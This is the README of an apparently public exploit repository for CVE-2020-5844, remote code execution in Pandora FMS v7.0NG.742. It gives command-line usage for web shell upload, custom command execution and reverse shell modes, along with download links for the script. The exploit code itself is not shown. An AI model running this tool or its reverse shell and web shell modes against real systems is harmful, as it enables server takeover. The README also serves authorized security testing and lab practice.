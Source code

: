 # Exploit for CVE-2020-5844 (Pandora FMS v7.0NG.742) - Remote Code Execution

![GitHub CVE Cover](https://user-images.githubusercontent.com/23003787/172497977-d6f22c52-ba5d-4fa0-9c90-04fc685ad871.png)

**Like this repo? Give us a ⭐!**

*For educational and authorized security research purposes only.*

## Exploit Author
[@UNICORDev](https://unicord.dev) by ([@NicPWNs](https://github.com/NicPWNs) and [@Dev-Yeoj](https://github.com/Dev-Yeoj))

## Vulnerability Description
`index.php?sec=godmode/extensions&sec2=extensions/files_repo` in Pandora FMS v7.0 NG allows authenticated administrators to upload malicious PHP scripts, and execute them via base64 decoding of the file location. This affects `v7.0NG.742_FIX_PERL2020`.

## Exploit Description
Use this exploit for remote code execution on vulnerable versions of Pandora FMS. Requires a target IP address and port. Requires valid username/password or valid PHPSESSID cookie authentication. Run in default mode to upload a basic PHP web shell. Run in custom command mode to run a custom command on the target. Run in reverse shell mode to receive a reverse shell from the target on a listener you set up. Run in web shell custom mode to change the name of the PHP web shell file.

## Usage
```bash
  python3 exploit-CVE-2020-5844.py -t <target-IP> <target-port> -u <username> <password>
  python3 exploit-CVE-2020-5844.py -t <target-IP> <target-port> -p <PHPSESSID>
  python3 exploit-CVE-2020-5844.py -t <target-IP> <target-port> -p <PHPSESSID> [-c <custom-command>]
  python3 exploit-CVE-2020-5844.py -t <target-IP> <target-port> -p <PHPSESSID> [-s <local-ip> <local-port>]
  python3 exploit-CVE-2020-5844.py -t <target-IP> <target-port> -p <PHPSESSID> [-w <name.php>]
  python3 exploit-CVE-2020-5844.py -h
```

## Options
```bash
  -t    Target host and port. Provide target IP address and port.
  -u    Target username and password. Provide username and password to log in to Pandora FMS.
  -p    Target valid PHP session ID. No username or password needed. (Optional)
  -s    Reverse shell mode. Provide local IP address and port. (Optional)
  -c    Custom command mode. Provide command to execute. (Optional)
  -w    Web shell custom mode. Provide custom PHP file name. (Optional)
  -h    Show this help menu.
```

## Download
[Download exploit-CVE-2020-5844.py from GitHub](https://raw.githubusercontent.com/UNICORDev/exploit-CVE-2020-5844/main/exploit-CVE-2020-5844.py)

[Download exploit-CVE-2020-5844.py from ExploitDB](https://www.exploit-db.com/exploits/50961)

### Searchsploit (ExploitDB)
```bash
searchsploit -u
searchsploit -m 50961
```

## Applies To
Pandora FMS v7.0NG.742

## Exploit Requirements
- python3
- python3:requests

## Demos
### Default Mode with Username and Password
![default](https://user-images.githubusercontent.com/23003787/169666284-9928f915-4b07-49b0-a835-8b28cbbb9ed3.gif)

### Default Mode with PHPSESSID
![default_sess](https://user-images.githubusercontent.com/23003787/169666223-de66bc05-f4fb-44d7-af79-e515d13fb25d.gif)

### Custom Command Mode
![command](https://user-images.githubusercontent.com/23003787/169666226-d9b8ee5f-81fa-4e34-b498-9c817d2bdb40.gif)

### Reverse Shell Mode
![shell](https://user-images.githubusercontent.com/23003787/169666229-cbf1e366-4c92-4aa7-a8b5-e250fbf8caf8.gif)

### Custom Web Shell Name Mode
![web](https://user-images.githubusercontent.com/23003787/169666230-fce0e884-2163-40f5-a418-afa6adbe45e8.gif)

## Credits
- https://nvd.nist.gov/vuln/detail/CVE-2020-5844
- https://sourceforge.net/projects/pandora/files/Pandora%20FMS%207.0NG/742_FIX_PERL2020/Tarball/pandorafms_server-7.0NG.742_FIX_PERL2020.tar.gz
- https://app.hackthebox.com/machines/Pandora
- https://github.com/TheCyberGeek/CVE-2020-5844
- https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated
- https://www.exploit-db.com/exploits/50961
